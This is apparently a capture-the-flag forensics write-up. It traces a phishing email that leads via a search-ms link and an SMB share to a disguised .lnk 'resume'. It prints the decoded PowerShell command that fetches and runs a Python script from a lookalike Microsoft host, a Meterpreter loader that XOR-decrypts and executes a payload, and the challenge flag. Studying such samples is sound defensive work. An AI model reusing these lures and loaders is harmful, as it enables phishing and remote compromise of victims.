








# A new Hire (Forensics)

```
Return-Path: <elowan81@eldor.ia>
Received: from mail-sor-f41.eldor.ia (mail-sor-f41.eldor.ia [209.85.220.41])
    by mx.eldor.ia (Postfix) with ESMTPS id A1B2C3D4E5F6
    for <work@eldor.ia>; Mon, 01 Jan 2024 12:34:56 -0700 (PDT)
    (version=TLS1.3 cipher=TLS_AES_256_GCM_SHA384 bits=256/256)
Received: from [192.168.1.100] (customer-pool-192-168-1-100.eldor.ia [192.168.1.100])
    by mail-sor-f41.eldor.ia with ESMTPSA id F6E5D4C3B2A1
    for <work@eldor.ia>; Mon, 01 Jan 2024 12:34:55 -0700 (PDT)
    (version=TLS1.2 cipher=ECDHE-RSA-AES128-GCM-SHA256 bits=128)
Authentication-Results: mx.eldor.ia;
    dkim=pass header.d=eldor.ia header.s=default header.b="3nw7H9qL1vXf5T8sK2zY6pB4rQ0eC7uM";
    spf=pass (mx.eldor.ia: domain of elowan81@eldor.ia designates 209.85.220.41 as permitted sender) smtp.mailfrom=elowan81@eldor.ia;
    dmarc=pass (p=quarantine sp=reject) header.from=eldor.ia
DKIM-Signature: v=1; a=rsa-sha256; c=relaxed/relaxed;
    d=eldor.ia; s=default; t=1704123295;
    h=From:To:Subject:Date:Message-ID:MIME-Version:Content-Type;
    bh=Qm6qK81lr9XH/FGV5tS2kD3pW4aI7m2xZv9d1kE6cT8y=;
    b=V8pPz1n+R2tW4yZ6aB8cD0eF2gH4iJ6kL8mN0oP2qR4sT6uV8wX0yZ2aB4cD6eF8
     gH0iJ2kL4mN6oP8qR0sT2uV4wX6yZ8aB0cD2eF4gH6iJ8kL0mN2oP4qR6sT8uV0wX2yZ4;
Received-SPF: pass (mx.eldor.ia: domain of elowan81@eldor.ia designates 209.85.220.41 as permitted sender) client-ip=209.85.220.41;
ARC-Authentication-Results: i=1; mx.eldor.ia;
    dkim=pass header.d=eldor.ia header.s=default header.b="3nw7H9qL1vXf5T8sK2zY6pB4rQ0eC7uM";
    spf=pass smtp.mailfrom=elowan81@eldor.ia;
    dmarc=pass (p=quarantine sp=reject) header.from=eldor.ia
ARC-Seal: i=1; a=rsa-sha256; t=1704123295; cv=none;
    d=eldor.ia; s=arc20240101;
    b=n8U2w3v1y7Z4x6T9r5q0p3o1l7m6k2j8i4h1g3f5d7s9a0b2c4e6r8t0y5u3w1x2
     a9b7c5d3e1f0g2h4i6j8k0l2m4n6o8p0q2r4s6t8u0v2w4x6y8z0A2B4C6D8E0F2G4;
ARC-Message-Signature: i=1; a=rsa-sha256; c=relaxed/relaxed;
    d=eldor.ia; s=arc20240101;
    h=From:To:Subject:Date:Message-ID:MIME-Version:Content-Type;
    bh=Qm6qK81lr9XH/FGV5tS2kD3pW4aI7m2xZv9d1kE6cT8y=;
    b=k4n5o6p7q8r9s0t1u2v3w4x5y6z7A8B9C0D1E2F3G4H5I6J7K8L9M0N1O2P3Q4R5
     S6T7U8V9W0X1Y2Z3a4b5c6d7e8f9g0h1i2j3k4l5m6n7o8p9q0r1s2t3u4v5w6x7y8;
Message-ID: <20240101123456.1234567890@mail-sor-f41.eldor.ia>
From: "Elowan" <elowan81@eldor.ia>
To: "Work" <work@eldor.ia>
Subject: Job Application - Resume Review 
Date: Mon, 01 Jan 2024 12:34:56 -0700
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 7bit

Hello Work Team,

I hope this email finds you well. We have received a new application for the open position, and we wanted to bring it to your attention.

The applicant, Lord Malakar, has an extensive background in leadership, strategic planning, and resource management. 
With years of experience commanding large-scale operations, overseeing tactical deployments, and influencing key stakeholders, Malakar believes he would be a strong asset to your organization.

Key Highlights from His Experience:

Strategic Leadership: Spearheaded large-scale initiatives that reshaped industry landscapes.
Crisis Management: Adept at handling high-pressure situations and making decisive calls.
Team Motivation: Known for fostering loyalty and rallying teams toward ambitious goals.
Innovative Thinking: Developed groundbreaking methods to enhance efficiency and control.
We believe Malakar’s skills and experience could be a great fit for your team, and he is eager to discuss how he can contribute to [Company Name]’s continued success.

You can review his resume here:
`storage.microsoftcloudservices.com:[PORT]/index.php`

Please let us know if you would like to proceed with the next steps in the hiring process.

Best regards,
Elowan

PS: Make sure you replace the '[PORT]' with your instance's port. Additionally, make sure that any hostnames that are found point to your instance's IP address!
```

Investigating the website's /index.php, I found something super interesting...

​​

googling *search:displayname=Downloads&amp;subquery=*  led me to this three posts about malware using microsoft's "[search-ms](https://learn.microsoft.com/en-us/windows/win32/search/getting-started-with-parameter-value-arguments)" URI protocol handler. Hence, I realised we were supposed to open it with microsoft edge/windows explorer, or do it manually via file explorer

* https://harfanglab.io/insidethelab/compromised-routers-infrastructure-target-europe-caucasus/
* https://www.proofpoint.com/uk/blog/threat-insight/malware-must-not-be-named-suspected-espionage-campaign-delivers-voldemort
* https://www.trellix.com/en-sg/blogs/research/beyond-file-search-a-novel-method/

​​

​​

​​

```
\\storage.microsoftcloudservices.com@33441\3fe1690d955e8fd2a0b282501570e1f4\resumes
```

Investing resume.pdf (I'm not running that shit on my host), It's a .lnk file to run a script via cmd.exe

```
C:\Windows\System32\cmd.exe /c powershell.exe -W Hidden -nop -ep bypass -NoExit -E WwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJwBtAHMAZQBkAGcAZQAnACwAIAAnAGgAdAB0AHAAOgAvAC8AcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIA
```

Running it in my flarevm, I realised it opens a link to the fucker's resume

* Alternatively, [decode it manually](https://www.pwndefend.com/2021/09/04/decoding-powershell-base64-encoded-commands-in-cyberchef/)

​​

```
http://83.136.253.40:33441/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf
```

After exploring the pdf file for a LONG TIME, I couldn't find anything suspicious about it. Hence, I investigated the script again by capturing it with **Process Explorer**

​​

```
powershell.exe  -W Hidden -nop -ep bypass -NoExit -E WwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJwBtAHMAZQBkAGcAZQAnACwAIAAnAGgAdAB0AHAAOgAvAC8AcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQA6ADMAMwA0ADQAMQAvADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANAAvAHIAZQBzAHUAbQBlAHMAUwAvAHIAZQBzAHUAbQBlAF8AbwBmAGYAaQBjAGkAYQBsAC4AcABkAGYAJwApADsAXABcAHMAdABvAHIAYQBnAGUALgBtAGkAYwByAG8AcwBvAGYAdABjAGwAbwB1AGQAcwBlAHIAdgBpAGMAZQBzAC4AYwBvAG0AQAAzADMANAA0ADEAXAAzAGYAZQAxADYAOQAwAGQAOQA1ADUAZQA4AGYAZAAyAGEAMABiADIAOAAyADUAMAAxADUANwAwAGUAMQBmADQAXABwAHkAdABoAG8AbgAzADEAMgBcAHAAeQB0AGgAbwBuAC4AZQB4AGUAIABcAFwAcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQBAADMAMwA0ADQAMQBcADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANABcAGMAbwBuAGYAaQBnAHMAXABjAGwAaQBlAG4AdAAuAHAAeQA=

# Deocoded string
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:33441/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@33441\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@33441\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

Turns out, the .lnk file's script above is truncated for some reason?... anyways, we can see it's accessing a smb share like last time again for client.py

​​

```
import base64

key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")

data = base64.b64decode("c97FeXRj6jeG5P74ANItMBNAPIlhyeTnf9gguC3OwmDQHdacg769YdefatM+YvUK3z+M9JaP8O/qb6vH0KF6rVk2laue3s5+rZOq4fl0kOKrJ3KRxHbjcudrMQf2tBc7iukHq/GD7RcSx1tzjdgLirUFk1RX8lk4wi6JDZ/c6dmnzqwE7wWUfMCf2XG3KpOUVXRpM6dktVYtkhr5pfp20Fl0/GYIAne+X9LB6eXd7Y8A69UH4KOFpNAVR0Hs5k0CqeBroaZKrBi3zQGWwEoT59FquZYO2AT8H8Vz/MHrrlYHAydkBHIVhIcOe6slnb/apV4rgVMfPVoNkoutMj5GlrqCBytVghU0ydAG9vX9F/IuwH5D+Nc9lg9+2jthz8u8qS3/T62Y5a0lBSODzvQJ9IuHvo+oh+8EQV/WciLiD+gp9snIxiUwjXpqi8CxReNwFgPUmwiBZe3pEE388OLSJopkdZpCQ3yGXq85ugUz9YOxltcywotisRfG6qMpWttSTN0BrIit7TjjLP7rB/8mBBwmpdbVD8v53QHhnsIWXDVCcvU6QhOcy5poFfSxWZbbF7DfTzt3G+9zGL8HZrRn0aVzCYQrezLaYg4YQbMJk9JO6vzoAIJNXo9bj4DQpLbuHAzp2hspJB0GKwWOjEwXTMgZQP3QCTivTajT1X9nkhMROWlr6ShNSeN7GcxRCqdJ9DIbIt82BjEl7tujm9a85E9OWDL2hLMfJpanPTg6Dty48UCkErR7+lYeG/bnFfB1qU3kUnBAu8+bY4Q2NGkegUa+sAURlMb8LkmQZkaC7nEytlwSEFKrb8V4/sEO6i5iW9XpCTLQjhRpDAD8SwV2q2rhHXBBeQT9mpicZm86LlGvZ80auT6fFvUUU+EGke+RPZnIll6tHds37bRGqTmrwVZekaEgqDqvVrgCpzdbgRVsO6ir6xBZFuGy8ehtzNGWsPmOrRO8dpKhtpxPsXivfz+bVbIZB9R+27bb17H+zEEfJqo2mr3kNUjY5dZj5UEYEUglZfykR6ST47kRcyRO3FHheDVJvEM/KiDk7sdCO9UgH0DDDV1Cu5O+lZ5MpDq/QaoLJ9UriW1vpKm0RY7F+3sAygXECoc8FKL8HzzBARz7wrOyEG9KYIVBtxFg9RNWBtqsMABHclf86z6tdDsqgaaYdP/9Z7MKHLs6cGQRyI2wzvdMbKeBbJF1K3xlHu/i/Qb/nmcu6I9JRY80cAuZuKT1EBEvofjyYOdM3a5VP7GJ1Hj/L0FH3U...")

meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

exec(__import__('zlib').decompress(meterpreter_data)[0])
```

I initially thought we were supposed to run the script. However, It just didin't work out of the box. Hence, I went to decode the data and key respectively, and the flag was the key

​​

HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}

‍

## Useful Links

https://0xdf.gitlab.io/2018/09/12/malware-analysis-yourexploitpdf.html

https://blog.didierstevens.com/2019/03/07/analyzing-a-phishing-pdf-with-objstm/

https://blog.didierstevens.com/category/pdf/page/3/
